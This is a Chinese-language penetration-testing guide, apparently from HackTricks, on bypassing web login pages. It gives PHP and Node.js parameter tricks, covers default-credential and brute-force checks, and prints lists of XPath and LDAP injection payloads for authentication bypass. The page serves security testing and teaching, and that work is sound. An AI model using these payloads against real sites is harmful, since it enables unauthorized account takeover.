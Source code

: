 # 登录绕过

{{#include ../../banners/hacktricks-training.md}}

## **绕过常规登录**

如果你发现了一个登录页面，这里有一些可以尝试绕过它的技术：

- 检查页面内的 **评论**（向下滚动并向右？）
- 检查是否可以 **直接访问受限页面**
- 检查 **不发送参数**（不发送任何或仅发送1个）
- 检查 **PHP 比较错误：** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **将内容类型更改为 json** 并发送 json 值（包括布尔值 true）
- 如果你收到一条说 POST 不被支持的响应，你可以尝试以 **GET 请求发送 JSON 到主体**，并设置 `Content-Type: application/json`
- 检查 nodejs 潜在的解析错误（阅读 [**这个**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)）： `password[password]=1`
- Nodejs 会将该有效负载转换为类似以下的查询： ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` 这使得密码位始终为真。
- 如果你可以发送 JSON 对象，你可以发送 `"password":{"password": 1}` 来绕过登录。
- 记住，要绕过此登录，你仍然需要 **知道并发送有效的用户名**。
- **在调用 `mysql.createConnection` 时添加 `"stringifyObjects":true`** 选项将最终 **阻止在参数中传递 `Object` 时的所有意外行为**。
- 检查凭据：
- [**默认凭据**](../../generic-hacking/brute-force.md#default-credentials) 的技术/平台
- **常见组合**（root, admin, password, 技术名称, 默认用户与这些密码之一）。
- 使用 **Cewl** 创建字典，**添加** 默认用户名和密码（如果有的话），并尝试使用所有单词作为 **用户名和密码** 进行暴力破解
- **暴力破解** 使用更大的 **字典 (**[**暴力破解**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL 注入认证绕过

[这里你可以找到几种通过 **SQL 注入** 绕过登录的技巧](../sql-injection/index.html#authentication-bypass)。

在以下页面中，你可以找到一个 **自定义列表以尝试通过 SQL 注入绕过登录**：

{{#ref}}
sql-login-bypass.md
{{#endref}}

### 无 SQL 注入认证绕过

[这里你可以找到几种通过 **无 SQL 注入** 绕过登录的技巧](../nosql-injection.md#basic-authentication-bypass)**。**

由于无 SQL 注入需要更改参数值，你需要手动测试它们。

### XPath 注入认证绕过

[这里你可以找到几种通过 **XPath 注入** 绕过登录的技巧](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP 注入认证绕过

[在这里您可以找到几种通过 **LDAP 注入** 绕过登录的技巧。](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### 记住我

如果页面有“**记住我**”功能，请检查其实现方式，并查看您是否可以利用它来**接管其他账户**。

### 重定向

页面通常在登录后会重定向用户，请检查您是否可以更改该重定向以导致[**开放重定向**](../open-redirect.md)。如果您将用户重定向到您的网站，您可能会窃取一些信息（代码、cookie...）。

## 其他检查

- 检查您是否可以通过登录功能**枚举用户名**。
- 检查密码/**敏感**信息**表单**的**自动完成**是否处于活动状态：`<input autocomplete="false">`

## 自动工具

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
